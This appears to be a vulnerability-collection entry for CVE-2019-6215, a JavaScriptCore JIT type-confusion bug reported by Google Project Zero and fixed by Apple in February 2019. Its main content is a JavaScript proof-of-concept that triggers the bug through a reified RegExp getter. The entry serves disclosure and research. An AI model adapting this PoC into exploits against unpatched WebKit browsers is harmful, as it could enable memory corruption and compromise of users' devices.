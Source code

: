 # CVE-2019-6215

- Report: Nov 2018
- Fix: Feb 2019
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function opt(o) {
    return o.r.input;
}

Object.assign({}, RegExp);  // Reifying

for (let i = 0; i < 200000; i++) {
    opt({r: RegExp});
}

let input = opt({r: RegExp});   // Pulling the CustomGetterSetter object.

let o = {
    a0: 0x1234,
    a1: 0x1234,
    a2: 0x1234,
    a3: 0x1234,
    a4: 0x1234,
    a5: 0x1234,
    a6: 0x1234,
    a7: 0x1234,
    a8: 0x1234,
    a9: 0x1234,
    a10: 0x1234,
    a11: 0x1234,
}

o.input = input;

print(o.input);  // The normal interpreter doesn't see the attributes, so it will just call the underneath getter using callCustomGetter.
```

## Reference

- [Apple](https://support.apple.com/en-us/HT209451)
- [WebKit](https://bugs.webkit.org/show_bug.cgi?id=191993)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1723)
